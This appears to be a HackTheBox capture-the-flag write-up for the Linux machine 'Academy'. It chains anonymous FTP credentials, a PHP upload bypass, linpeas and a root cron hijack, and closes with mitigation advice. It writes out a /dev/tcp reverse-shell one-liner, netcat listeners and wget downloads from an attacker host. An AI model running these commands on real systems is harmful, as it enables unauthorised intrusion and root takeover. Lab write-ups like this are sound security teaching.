








# Academy — Credential Exposure to Root via Cron Hijack

**HackTheBox · Linux**

Academy chains a series of low-friction misconfigurations: anonymous FTP exposing credentials, a PHP upload bypass for initial access, a poorly secured user account surfaced by privilege-escalation tooling, and a cron-executed script with world-writable permissions. No single step is sophisticated. Together they produce root.

> [!NOTE]
> **Chain:** anonymous FTP creds → subdomain discovery → PHP upload bypass → `www-data` → linpeas surfaces reused creds → SSH → world-writable root cron → root.

## Enumeration

```bash
nmap -sV -sC -oN nmap_academy <target>
# 21 (FTP — anonymous login allowed), 22 (SSH), 80 (HTTP)
```



The scan returned three services. Anonymous FTP is the first flag worth pulling on — it almost always means something was left accessible by mistake.

## FTP — credentials in the open

Connected anonymously. The server held a single file, `note.txt`, containing login credentials with an MD5-hashed password. The service to authenticate against was not clear yet, but the credentials were noted — MD5 is trivially crackable if needed, but identifying the target came first.



## Subdomain discovery

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://<target> -H "Host: FUZZ.academy.htb" -mc 200,301
```



The FTP note implied a staging subdomain. ffuf surfaced it; it resolved to a login panel, and the credentials from the FTP note authenticated without modification.

## Initial foothold — PHP upload bypass

The authenticated panel included a profile-photo upload field, and nmap had confirmed PHP. Upload validation was client-side only — intercepting the request and changing the content type was enough to push a `shell.php`.

```bash
# pentestmonkey PHP reverse shell — edit before uploading:
# $ip = '<attacker-ip>'; $port = 4444;
nc -lvnp 4444
# Upload shell.php via the profile photo field, trigger via browser
```



Shell returned as `www-data`. Not root, but on the box.

## Privilege escalation — linpeas to credentials

```bash
python3 -m http.server 8080                 # attacker
wget http://<attacker-ip>:8080/linpeas.sh   # target
chmod +x linpeas.sh && ./linpeas.sh
```



linpeas surfaced a user `grimmie` with plaintext credentials in a configuration file. SSH'd in directly — the credentials worked.

## Root — cron job hijack

In grimmie's home directory: a file called `backup.sh`. The question was whether it ran on a schedule and under what user context. It was not visible in `ps aux`, so pspy was needed to catch it live.

```bash
wget http://<attacker-ip>:8080/pspy64
chmod +x pspy64 && ./pspy64
```



pspy confirmed it: `backup.sh` executing as root on a cron interval, and the file was writable by grimmie. That is the vulnerability — a root cron job executing a user-writable script.

```bash
echo 'bash -i >& /dev/tcp/<attacker-ip>/8080 0>&1' > backup.sh
nc -lvnp 8080
```



On the next cron execution: root shell.

## Detection & mitigation

- Disable anonymous FTP or audit what it exposes — credentials in an anonymous-readable directory is not a misconfiguration, it is an open door.
- Validate file uploads server-side on content and execution context, not just MIME type.
- Audit cron jobs running as root — especially scripts outside `/etc/` owned by non-root users.
- Run linpeas against your own systems periodically; what it finds is what the attacker finds.

## Attack path


